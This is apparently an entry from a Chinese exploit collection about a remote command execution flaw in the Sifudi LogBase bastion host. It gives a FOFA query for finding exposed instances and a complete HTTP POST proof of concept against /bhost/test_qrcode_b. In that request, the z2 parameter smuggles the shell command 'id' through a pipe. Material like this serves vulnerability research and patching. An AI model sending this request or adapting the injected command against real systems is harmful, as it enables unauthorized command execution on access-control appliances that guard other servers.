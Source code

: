 # 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞

# 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞

## 漏洞描述

思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。

## 漏洞影响

思福迪 运维安全管理系统

## 网络测绘

```
app="思福迪-LOGBASE"
```

## 漏洞复现

登陆页面

![image-20231116142127906](images/image-20231116142127906.png)

poc

```
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

![image-20231116142143817](images/image-20231116142143817.png)

